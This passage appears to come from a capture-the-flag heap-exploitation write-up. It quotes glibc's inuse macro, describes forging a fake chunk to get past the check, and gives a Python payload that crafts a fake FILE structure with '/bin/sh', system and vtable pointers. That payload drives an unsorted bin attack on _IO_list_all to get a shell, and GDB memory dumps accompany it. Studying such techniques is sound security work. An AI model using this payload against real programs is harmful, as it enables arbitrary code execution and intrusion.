 
```c
/* extract p's inuse bit */
#define inuse(p)							      \
  ((((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size) & PREV_INUSE)
```

We can bypass that check by crafting a fake chunk at offset `chunk y + size(chunk y)`, meaning `0x6031a0`, with size whose last
bit will be set (i.e `0x31` for instance). Which is what we did before but told you to ignore it for the time being.

```
0x6031a0:	0x0000000000000031	0x0000000000000031 <-- fake chunk
0x6031b0:	0x0000000000000031	0x0000000000000031
0x6031c0:	0x0000000000000031	0x0000000000000031
0x6031d0:	0x0000000000000000	0x0000000000000000
0x6031e0:	0x0000000000000000	0x0000000000000000
0x6031f0:	0x0000000000000000	0x0000000000000000
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000020df1 <-- top chunk
```

Time to perform the attacks.

```python
fstream  = "/bin/sh\x00"
fstream += p64(0x61)
fstream += p64(0) 
# bk => _IO_list_all
fstream += p64(iolist-0x10)
fstream += p64(2)
fstream += p64(3)
fstream  = fstream.ljust(0x60,"\x00")
fstream += p64(0) * 3
fstream += p64(system)
fstream  = fstream.ljust(0xd8,"\x00")
fstream += p64(vtable)
# musable() will use the chunk's size to read in data.
# Because we have overwritten it with a big enough size
# the data will overlap the unsorted bin which happens 
# be right after the currently edited chunk.
# Unsorted bin attack => _IO_list_all attack
edit(acc, p64(system), 3, p64(0)*12 + fstream)
```

```
0x6030b0:	0x0068732f6e69622f	0x0000000000000061 <-- unsorted chunk 
0x6030c0:	0x000000000000ddaa	0x00007ffff7dd2510 <-- _IO_list_all - 0x10
0x6030d0:	0x0000000000000002	0x0000000000000003
0x6030e0:	0x0000000000000000	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
0x603120:	0x0000000000000000	0x00007ffff7a52390 <-- system
0x603130:	0x0000000000000000	0x0000000000000000
0x603140:	0x0000000000000000	0x0000000000000000
0x603150:	0x0000000000000000	0x0000000000000000
0x603160:	0x0000000000000000	0x0000000000000000
0x603170:	0x0000000000000000	0x0000000000000000
0x603180:	0x0000000000000000	0x0000000000602118 <-- vtable ptr
```

